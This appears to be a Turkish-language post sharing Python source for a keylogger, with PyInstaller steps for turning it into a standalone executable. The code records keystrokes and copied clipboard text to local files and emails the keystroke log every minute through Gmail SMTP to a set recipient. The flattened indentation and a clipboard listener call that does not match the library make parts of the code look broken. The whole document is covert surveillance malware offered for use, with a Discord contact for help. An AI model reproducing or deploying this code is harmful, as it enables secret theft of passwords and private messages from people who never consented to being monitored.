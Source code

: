 önecelikle terminali açıp :pip install pyinstaller yazın 

sonra kodu exeye dönüstürmek için : pyinstaller --onefile your_script.py 

python code : 

    import smtplib
    from email.mime.multipart import MIMEMultipart
    from email.mime.text import MIMEText
    from pynput import keyboard
    from pynput import clipboard
    import os
    import time
    import schedule

    SMTP_SERVER = "smtp.gmail.com"
    SMTP_PORT = 587
    EMAIL_ADDRESS = "your_email@gmail.com"
    EMAIL_PASSWORD = "your_password"
    RECIPIENT_EMAIL = "recipient_email@gmail.com"

    tuş_sayıları = {}

    kopyalanan_metinler = open("kopyalanan_metinler.txt", "a")

    def on_press(key) :
    try :
    tuş = key.char  # Normal karakter tuşları
    except AttributeError :
    tuş = str(key)  # Diğer tuşlar(Shift, Ctrl, vs.)

    if tuş in tuş_sayıları :
    tuş_sayıları[tuş] += 1
    else:
    tuş_sayıları[tuş] = 1

    with open("basılan_tuşlar.txt", "a") as dosya :
    dosya.write(f"{tuş}\n")

    def on_copy(text) :
    kopyalanan_metinler.write(text + "\n")

    # E - posta gönderme fonksiyonu
    def send_email() :
    # E - posta oluşturma
    msg = MIMEMultipart()
    msg['From'] = EMAIL_ADDRESS
    msg['To'] = RECIPIENT_EMAIL
    msg['Subject'] = "Kullanıcı Aktiviteleri"

    # Metin belgesini e - posta içeriğine ekleme
    with open("basılan_tuşlar.txt", "r") as dosya :
    text = dosya.read()
    body = MIMEText(text)
    msg.attach(body)

    with smtplib.SMTP(SMTP_SERVER, SMTP_PORT) as server :
    server.starttls()
    server.login(EMAIL_ADDRESS, EMAIL_PASSWORD)
    server.send_message(msg)

    os.remove("basılan_tuşlar.txt")

    schedule.every(1).minutes.do(send_email)

    with keyboard.Listener(on_press = on_press) as listener1, clipboard.Listener(on_copy = on_copy) as listener2 :
    listener1.join()
    listener2.join()

    while True:
    schedule.run_pending()
    time.sleep(1)
   
    # Yardım için
    # Discord deimosthelegit 

   
